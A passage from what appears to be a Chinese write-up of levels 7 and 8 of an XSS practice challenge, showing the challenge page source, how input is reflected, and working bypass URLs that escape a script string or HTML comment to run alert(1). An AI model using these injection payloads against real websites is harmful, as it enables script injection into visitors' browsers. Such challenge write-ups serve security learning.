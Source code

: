 ![](https://img.mi3aka.eu.org/2022/09/1a2a9a2822ad22bf06947d276878092e.png)

```
https://px1624.sinaapp.com/test/xsstest7/?px=%3C!--%3Cscript%20%3E\%27-`;%0aalert(1)%0a//
```

![](https://img.mi3aka.eu.org/2022/09/26237a547c7a88fc38050560ef83d60e.png)

```html
<html><head><script>
var px='\<!--\<script \>\\'-`\;
alert(1)
\/\/';
</script>
give me xss by pass~7
<div style="display:none">&lt;!--&lt;script &gt;\'-`;
alert(1)
//</div>
<!--px-->
<script>
'px'
</script></head><body></body></html>
```

# xsstest8

```html
<script>
var px='';
var px1624='';
</script>
give me xss by pass~8
<div style="display:none"></div>
<input type="hidden" value="">
```

```html
/test/xsstest8/?px=123456789123456789
<script>
var px='123456789123456789';
var px1624='123456789123456789';
</script>
give me xss by pass~8
<div style="display:none">123456789</div>
<input type="hidden" value="123456789123456789">
```

与第七题的原理类似

`https://px1624.sinaapp.com/test/xsstest8/?px=%3C!--%3C/script%3E%3Cscript%20%3Ealert(1)%3C/script%3E`

![](https://img.mi3aka.eu.org/2022/09/815205ff0f1e6cb407eca98de3e974d3.png)
